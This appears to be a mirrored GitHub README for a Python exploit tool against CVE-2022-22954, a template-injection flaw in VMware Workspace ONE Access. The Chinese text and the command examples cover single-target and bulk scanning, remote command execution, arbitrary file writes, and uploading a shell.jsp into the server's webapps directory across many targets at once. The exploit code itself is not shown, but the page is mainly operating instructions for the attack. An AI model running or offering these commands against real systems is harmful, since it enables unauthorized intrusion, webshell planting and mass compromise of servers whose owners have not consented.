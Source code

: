 # CVE-2022-22954

CVE-2022-22954 VMware Workspace ONE Access freemarker SSTI 漏洞 命令执行、批量检测脚本、文件写入

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/bewhale](https://github.com/bewhale) |
| Url      | [https://github.com/bewhale/CVE-2022-22954](https://github.com/bewhale/CVE-2022-22954)                                               |
| Stars    | 67                                                          |
| License  | No License                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

![CVE-2022-22954](https://socialify.git.ci/bewhale/CVE-2022-22954/image?description=1&font=Inter&forks=1&issues=1&language=1&owner=1&pattern=Solid&stargazers=1&theme=Light)




多个漏洞触发点检测，多线程批量检测，命令执行，文件写入

```
// 单个目标漏洞检测
python CVE-2022-22954.py -u https://x.x.x.x

// 命令执行
python CVE-2022-22954.py -u https://x.x.x.x -c "id"

// 写文件
python CVE-2022-22954.py -u https://x.x.x.x -fn test.jsp  -fc "test"

// 上传文件，windows 设置文件名需要指定路径
python CVE-2022-22954.py -u https://x.x.x.x -fn test.jsp  -fp "D:\Desktop\shell.jsp"

// 上传到指定路径
python CVE-2022-22954.py -u https://x.x.x.x -fn "/opt/vmware/horizon/workspace/webapps/catalog-portal/test.jsp"  -fp "D:\Desktop\shell.jsp"

// 批量检测，用法一致
python CVE-2022-22954.py -f url.txt
python CVE-2022-22954.py -f url.txt -c "id" -t 200
python CVE-2022-22954.py -f url.txt -fn test.jsp  -fc "test" -t 200
python CVE-2022-22954.py -f url.txt -fn test.jsp  -fp "D:\Desktop\shell.jsp" -t 200
python CVE-2022-22954.py -f url.txt -fn "/opt/vmware/horizon/workspace/webapps/catalog-portal/test.jsp"  -fp "D:\Desktop\shell.jsp" -t 200
```

![](https://raw.githubusercontent.com/bewhale/CVE-2022-22954/main/1.png)

# 参考文章
https://mp.weixin.qq.com/s/2qHhPs1HcEXVQb7bkC3mcA



## Get the content

```
git clone https://github.com/bewhale/CVE-2022-22954
cd CVE-2022-22954
```

{% embed url="https://github.com/bewhale/CVE-2022-22954" %}

<figure><img src="https://avatars.githubusercontent.com/u/42403886?v=4" alt=""><figcaption><p>bewhale</p></figcaption></figure>
